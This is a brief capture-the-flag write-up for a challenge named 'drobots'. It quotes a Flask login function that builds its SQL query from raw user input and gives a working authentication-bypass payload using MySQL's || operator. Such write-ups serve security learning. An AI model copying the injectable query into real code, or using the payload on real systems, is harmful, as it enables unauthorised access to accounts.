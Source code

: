 # drobots

**SOLVED**

`./build-docker.sh`

Dockerfile -> mariadb, flask, pyjwt

```py
# challenge/application/database.py
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

payload `username=admin, password=" || ""="`

note: did this by accident, but in mySQL `||` can actually be logical OR
